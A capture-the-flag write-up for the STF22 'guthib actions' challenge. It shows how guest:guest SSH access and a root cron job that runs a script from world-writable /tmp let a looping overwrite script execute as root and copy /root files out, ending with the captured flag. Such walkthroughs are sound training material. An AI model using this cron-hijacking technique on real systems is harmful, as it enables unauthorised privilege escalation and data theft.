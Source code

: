 # guthib actions - STF22 Miscellaneous Challenge

Here is the challenge task:

![challenge_task](images/Challenge_Task.png)

Files: 
[`Dockerfile`](guthib_actions/Dockerfile),
[`start.sh`](guthib_actions/start.sh),
[`build.sh`](guthib_actions/build.sh),
[`build.py`](guthib_actions/build.py)

## Overview

For this challenge, the source code of the challenge is provided.

From the provided [`Dockerfile`](guthib_actions/Dockerfile), we observe
that a guest account was added with both usernames and password as 
`guest`. Additionally, the `PasswordAuthentication yes` set in the
sshd configurations allows remote users to authenticate via password.

```docker
RUN useradd -m -c 'Restricted guest account' guest && \
    echo 'guest:guest' | chpasswd

RUN echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config
```

A cron job is added - the `/root/build.sh` file is scheduled to be ran
every minute. The permissions for the `/root` directory is changed
such that the guest account is unable to read or execute any files within.
Also note that `flag.py` which likely contains the flag is copied into
`/root`.

```docker
RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab
# omitted
COPY ./flag.py /root/flag.py
# omitted
RUN chown -R guest /home/guest && \
    chmod -R 700 /root && \
    chmod -R 777 /home/guest
```

Inspecting the schedule `build.sh`:

```sh
#!/bin/bash
cd /tmp  # dump all the temp files Pyinstaller may generate in the temp dir
cp /root/build.py build.py
python3 build.py >/dev/null 2>&1  # build flag printing binary
rm -r *
```

The script copies `build.py` into `/tmp` and executes it inside, then
removes every file in `/tmp`. The python script being executed simply
creates an executable for the `/root/flag.py` file.

## Solution

First, we SSH into the remote server using the username and password that
was found earlier: `guest:guest`.

Since the scheduled `build.sh` executes `/tmp/build.py` and we have
write permissions for `/tmp`, we can simply replace the python script
during the execution of the cron job and have our own script to be
executed instead.

From there we noted that guest has write permissions for `/tmp`, however,
there is no available text editor i.e. vi, nano, etc. To circumvent this, 
one can use `scp` to transfer files into the remote server instead.

```sh 
$ scp -P 30921 <file> guest@157.245.52.169:~
```

To hijack the cron job's python script execution, we need a script to
overwrite `build.py` at a sufficiently fast rate. For that, we created
a [`spam.sh`](spam.sh) which does the replacing in a while loop.

```sh
#!/bin/bash

while true
do
    cp spam.py /tmp/build.py
done
```

The resulting `build.py` being executed is to copy all the files inside
the `/root` directory into the guest's home directory and allow the 
guest account to read, write and execute the files.

```py
import os

os.system('cp /root/* /home/guest')
os.system('chmod -R 777 /home/guest')
```

With that, simply run the `spam.sh` script, wait for a minute and we
have our flag.

```sh
$ ./spam.sh
^C
$ ls
build.py  build.sh  flag.py  spam.py  spam.sh  start.sh
$ cat flag.py
print('STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}')$ 
```